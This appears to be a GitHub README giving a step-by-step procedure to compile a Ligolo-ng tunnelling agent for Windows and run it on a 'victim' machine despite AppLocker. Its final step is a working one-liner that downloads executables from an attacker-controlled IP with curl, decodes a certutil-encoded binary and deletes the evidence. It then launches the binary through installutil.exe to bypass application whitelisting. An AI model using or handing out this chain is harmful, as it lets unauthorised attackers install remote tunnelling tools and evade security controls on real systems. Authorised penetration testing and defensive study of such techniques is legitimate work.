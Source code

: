 ### Step 1: Modify the Ligolo-ng agent's main file
  - Clone ligolo-ng repo: https://github.com/nicocha30/ligolo-ng. 
  - Open and edit main.go to adjust the settings as needed: /ligolo-ng/cmd/agent/main.go 
   
  <img width="653" alt="{CAC55401-20B8-42A1-BCDE-EBF6E1DFC442}" src="https://github.com/user-attachments/assets/4d52a625-d15d-477d-a46e-63659f503c42" /> 

### Step 2: Compile the agent 
  - Use the following command to compile: 
  - GOOS=windows go build -o agent.exe cmd/agent/main.go

### Step 3: Encode the ApplockerBypassExternalBinary executable with certutil 
  - certutil -encode .\ApplockerBypassExternalBinary.exe AppLockerBypassLigolo.

### Step 4: Execution on the Target Machine
  - Name the agent executable `ligolo-agent.exe` 
  - Make sure both executable and the encoded .txt file in the same directory, then serve them with python server.

### Step 5: Execution in Action! 
  - On victim, run: `cmd.exe /c curl http://192.168.45.185/ligolo-agent.exe -o C:\users\public\try-agent.exe && curl http://192.168.45.185/  AppLockerBypassLigolo.txt -o C:\users\public\enc.txt && certutil -decode C:\users\public\enc.txt C:\users\public\ligolo.exe && del C:\users\public\enc.txt && C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=true /U C:\users\public\ligolo.exe`
